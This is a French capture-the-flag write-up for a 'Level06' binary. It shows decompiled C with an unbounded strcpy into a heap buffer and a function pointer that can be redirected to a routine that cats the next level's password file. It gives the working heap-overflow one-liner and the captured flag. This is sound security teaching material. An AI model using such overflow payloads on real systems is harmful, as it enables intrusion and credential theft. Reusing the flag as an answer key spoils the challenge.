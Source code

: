 # Rapport CTF - [Level06]

### Observation :
En arrivant sur le level6 on trouve un executable nommé level6.\
Quand nous essayons de le lancer avec un argument le programme repond `Nope`. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048454) --------------------------------------------------------
int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}

//----- (08048468) --------------------------------------------------------
int m()
{
  return puts("Nope");
}

//----- (0804847C) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```
On peux voir une fonction `n()` qui permet de cat le mot de passe du prochain level
Le but est donc d'arriver a jump sur  la fonction `n()`. \
On peux voir aussi que nous avons 2 mallocs et un `strcpy()` (pas de `n` donc pas proteger).

### Solution :
Nous devons donc arriver a ecrire sur le pointeur de v4 pour pouvoir jump sur la fonction `n()`. \
Pour se faire on vas overflow le premier malloc pour pouvoir ecrire sur *v4. \
On ecrit donc 72 octets random puis l'adresse de `n()` en inverser.

On fait la commande suivante pour obtenir le flag :
```sh
./level6 $(python -c "print ('a' * 72 + '\x08\x04\x84\x54'[::-1])")
```

### Resultat :
```sh
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
